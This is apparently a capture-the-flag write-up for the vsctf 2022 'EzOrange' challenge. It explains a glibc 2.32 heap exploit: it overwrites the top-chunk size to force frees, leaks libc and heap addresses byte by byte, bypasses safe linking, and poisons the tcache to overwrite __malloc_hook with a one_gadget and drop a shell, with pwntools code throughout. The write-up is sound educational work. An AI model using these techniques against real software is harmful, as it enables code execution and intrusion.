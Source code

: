 ```yaml
---
layout: post
readtime: true
tags: [tcache_poisoning,uaf,sysmalloc,top_chunk]
---
```


### Attachments : [ezorange](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ezorange) , [libc.so.6](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/libc.so.6), [ld-2.32.so](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ld-2.32.so)
<br>
EzOrange was an interesting heap exploitation challenge from vsctf 2022. This challenge uses libc-2.32. There are two options, `Buy an orange` and `Modify part of orange`. The first options allows us to allocate chunks of size <= 0x1000 and index(Orange number) either 0 or 1. The second option asks for an index(Orange number) and a cell index, prints the byte present at the cell index and then reads a new value for it(that can be controlled by the user). Thus, we have an arbitrary read/ write primitive, one byte at a time. There's no function that would allow us to free a chunk. Let's create some helper functions for malloc, read and write


```
def buy_orange(orange_number,size):
    p.sendlineafter("> ","1") 
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Size: ",str(size))

def modify_orange(orange_number,cell_index,value):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.sendlineafter("New value: ",str(value))

def leak_byte(orange_number,cell_index):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.recvuntil("Current value: ")
    leak = p.recvline()[:-1]
    p.sendlineafter("New value: ",leak)
    return leak

```
Alright, after writing a few helper functions, our goal is to generate a libc leak. This can be done by inserting a chunk into the unsorted bin and then reading the fd or bk, one byte at a time. But, wait a minute, there's no such functionality present in the binary that allows us to free a chunk. So, how do we insert a chunk into the unsorted bin if we can't free it? Well, in this case we can indirectly free a chunk by overwriting the `SIZE` field of the top chunk with a small value followed by large allocations. Whenever `malloc` receives a request that is too large to be serviced by an arena's top chunk or bins, the normal arenas handle it by changing permissions on the pre-mapped heap memory but the main arena invokes the `brk` system call to request memory from the kernel after which `malloc` checks the `SIZE` field to find out whether the newly allocated memory is contiguous to the heap or not. If it is, `malloc` extends the size of the top chunk. If the `SIZE` of the top chunk is overwritten with a small value and a large request to `malloc` is made, `malloc` finds out that the new memory doesn't border the end of the heap because of the fake size field of the top chunk. Since the newly allocated memory is larger, `malloc` starts a new heap right there by freeing the previous top chunk and moving the top chunk pointer to the newly allocated memory. Internally, the `sysmalloc` function is called. But, you cannot overwrite the top_chunk `SIZE` field with any value, there's a check involved in it.

```
static void * sysmalloc (INTERNAL_SIZE_T nb, mstate av)
{
.....
  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
.....
}
```
The `PREV_INUSE` bit of the top chunk must be set and the chunk should end on a page boundary. 

Alright, so let's start the attack by allocating a chunk
```
buy_orange(0,24)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img1.png"/>

Now, we need to overwrite the `SIZE` of the top chunk with the value `0xd51` followed by a large request. This would free the top chunk and insert it into the unsorted bin. 
```
value = 0xd51
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```
After that, we can leak data from the free chunk, one byte at a time to get a libc leak.

```
libc_leak = b'\x00'
for i in range(33,40):
    leak = leak_byte(0,i)
    leak = int(leak)
    libc_leak += p8(leak)
leak = u64(libc_leak)
libc.address = leak-0x1c5c00
log.critical("Libc base: {}".format(hex(libc.address)))
```
Now, after getting the libc base address, we'll try overwriting `__malloc_hook` with `one_gadget`. This can be done by inserting chunks into the tcache and corrupting the `fd`.
```
# Let's remove the chunk from the unsorted bin
buy_orange(0,0xd28)
buy_orange(0,0x10)
```
We can again overwrite the `SIZE` field of the top chunk and make large allocations to insert a chunk into the tcache. So, let's overwrite the `SIZE` of the top chunk with 0x221 and make a large request free a chunk and insert into the tcache.

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img2.png"/>
```
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img3.png"/>
Alright, so we've successfully inserted a chunk into the tcache. Now, the only thing that's left is to overwrite `__malloc_hook` with `one_gadget`. 
Let's leak the `fd` field from the free chunk. 
```
heap_leak1 = b''

for i in range(0x20,0x28):
    leak = leak_byte(0,i)
    leak = int(leak)
    heap_leak1 += p8(leak)
heap_leak1 = heap_leak1.ljust(8,b'\x00')
heap_leak1 = u64(heap_leak1)

```
libc2.32 has a check on the count fields in tcache. This can be bypassed by inserting one more chunk into the tcache , which would increase the count field of that particular tcache bin to 2. After that, we can corrupt the `fd` of the most recently freed chunk. 
```
buy_orange(0,0x10)
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)

heap_leak1 += 0x22
```
Now, libc2.32 includes an exploit mitigation known as [safe linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/). Basically, it obfuscates the `fd` of chunks that belong to bins that are singly linked.
In order t6o insert the `__malloc_hook` into the free list, we'll need to xor it with the heap leak.
```
__malloc_hook = __malloc_hook ^ heap_leak1
__malloc_hook = p64(__malloc_hook)
```
Now, we're all set. Let's launch tcache poisoning.
```
for i in range(0x20,0x28):
    modify_orange(0,i,__malloc_hook[i-0x20])
```

So, we've successfully inserted the `__malloc_hook` into the free list. Let's grab it.
<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img4.png">

```

buy_orange(0,0x1f8)
buy_orange(0,0x1f8)
one_gadget = libc.address + 0xceb71
one_gadget = p64(one_gadget)
```
Overwrite `__malloc_hook` with `one_gadget` and call `malloc` to drop a shell
```
for i in range(0,8):
    modify_orange(0,i,one_gadget[i])
buy_orange(0,0x10)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img5.png">

### Complete exploit can be found [here](https://github.com/0xSh4dy/ctf_writeups/blob/master/vsctf2022/EzOrange/ezorange.py)